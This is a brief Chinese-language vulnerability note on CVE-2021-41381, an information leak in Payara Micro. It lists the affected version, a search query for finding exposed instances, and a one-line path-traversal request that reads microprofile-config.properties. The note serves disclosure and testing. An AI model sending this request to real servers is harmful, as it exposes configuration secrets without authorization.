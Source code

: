 # PayaraMicro microprofile-config.properties 信息泄漏漏洞 CVE-2021-41381

## 漏洞描述

PayaraMicro microprofile-config.properties文件配置错误的情况下可被任意用户读取，获取敏感信息

## 漏洞影响

```
Payara Micro Community 5.2021.6
```

## 网络测绘

```
app="Payara-Micro"
```

## 漏洞复现

产品页面

![image-20220525163706617](images/202205251637689.png)

验证POC

```
/.//WEB-INF/classes/META-INF/microprofile-config.properties
```

![image-20220525163715004](images/202205251637074.png)